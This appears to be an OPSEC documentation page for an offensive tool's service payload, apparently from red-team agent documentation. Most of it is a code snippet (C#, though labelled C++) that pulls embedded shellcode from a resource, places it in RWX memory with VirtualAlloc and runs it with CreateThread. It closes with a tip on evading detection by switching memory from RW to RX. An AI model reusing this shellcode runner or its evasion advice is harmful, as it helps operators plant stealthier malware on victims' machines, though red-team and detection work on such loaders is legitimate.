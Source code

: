 +++
title = "OPSEC"
chapter = false
weight = 10
pre = "<b>1. </b>"
+++

### Service Execution
The service allocates local memory as RWX, loads the embedded resource into it, and kicks off execution. The service does _not_ do any remote process injection or migration.

```C++
public bool Execute()
{
    byte[] shellcode = GetResource("loader");
    UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
    IntPtr hThread = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr pinfo = IntPtr.Zero;
    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
    WaitForSingleObject(hThread, 0xFFFFFFFF);
    return true;
}
```

There is a potential OPSEC concern here related to the RWX memory. You can always go through to allocate RW memory, copy the code over, then change to RX before starting execution.